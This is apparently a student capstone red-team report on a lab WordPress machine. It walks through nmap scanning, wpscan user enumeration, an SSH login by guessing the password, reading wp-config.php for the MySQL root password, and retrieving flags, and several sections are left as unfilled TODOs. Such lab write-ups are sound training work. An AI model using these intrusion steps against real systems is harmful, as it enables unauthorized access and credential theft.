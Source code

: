 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

WORDPRESS SCREENSHOT

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

Step 3: Enumerate the WordPress site. 

- `wpscan –-url http://192.168.1.110/wordpress -eu`

- Users Identified
- steven
- michael
- [Enumeration Output](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Enumeration Output")

Step 4: Use SSH to gain a user shell

- `ssh michael@192.168.1.110`
- `Guess-Enter password: michael`  → success
- [Michael login results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Michael login results")


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag #1 {b9bbcb33e11b80be759c4e844862482d}
    - `grep -RE flag html`
    - [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")


  - Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
    - `cd /var/www`
    - `cat flag2.txt`
    - [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

Step 5: Find the MySQL database password.

- `cat /var/www/html/wordpress/wp-config.php`
- Password: R@v3nSecurity
- [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

Step 6: Use the credentials to log into MySQL and dump WordPress user password hashes.
- michael@target1:~$ `mysql -u root -p`
- Enter password: `R@v3nSecurity`
- [MySQL Login](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_login.PNG "MySQL Login")

- `mysql> show databases;`
- [mysql show databases](mysql "mysql show databases")
- `mysql> use wordpress;`
- [mysql wordpress DB](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wordpress_db.PNG "mysql wordpress DB")


- Flag #3

    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Identify the command used_

      - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")
      
  - Flag #4

    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Identify the command used_

      - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")
